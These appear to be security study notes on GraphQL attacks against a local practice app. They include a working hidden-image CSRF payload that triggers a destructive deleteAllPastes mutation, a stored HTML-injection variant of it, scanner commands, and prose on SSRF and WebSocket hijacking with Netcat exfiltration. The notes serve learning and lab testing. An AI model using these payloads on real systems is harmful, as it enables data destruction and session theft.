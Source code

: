 ```bash
<html>
    <body>
        <h1>GET-based CSRF using an image tag</h1>
        <img src="http://localhost:5013/graphql?query={deleteAllPastes}" style="display: none;" />
    </body>
</html>
-------------------------
// Using HTML Injeciton
mutation {
    createPaste(content:"<img src=\"http://localhost:5013/graphql?query= {deleteAllPastes }\" </img>", title:"CSRF using image tags", public: true,burn: false) {
        paste {
            id
            content
        }
    }
}
```
{% endcode %}

#### Automating Testing with BatchQL and GraphQL Cop

```bash
python3 batch.py -e http://localhost:5013/graphql | grep -i "CSRF"
python3 graphql-cop.py -t http://localhost:5013/graphql | grep -i "CSRF"
```

The SameSite Flag



### **Server-Side Request Forgery (SSRF)**

* SSRF attacks target servers, aiming to obtain sensitive data, probe for internal services, make internal requests to restricted networks, or access cloud environment information.
* SSRF allows attackers to forge requests on behalf of servers.
* **An SSRF vulnerability can give an attacker access to services they otherwise wouldn't be able to reach directly**.
* This includes **cross-site port attacks (XSPA)**, where a server makes a request to an internal port that isn't directly accessible.
* Preventing SSRF involves sanitizing and validating user input in request fields and limiting the scope of request operations.

**Cross-Site WebSocket Hijacking (CSWSH)**

* CSWSH involves stealing another user's session via WebSocket connections.
* WebSocket handshakes can be hijacked if they lack anti-CSRF tokens, enabling attackers to forge messages using the victim's authenticated session.
* Attackers can exfiltrate GraphQL subscription responses via CSWSH.
* A WebSocket connection handshake is initiated over HTTP and may include cookies for authentication.
* Introspection can be used to identify subscription field names.
* To simulate a CSWSH attack, an attacker can set up a Netcat listener to receive exfiltrated data after a victim is tricked into loading malicious code.
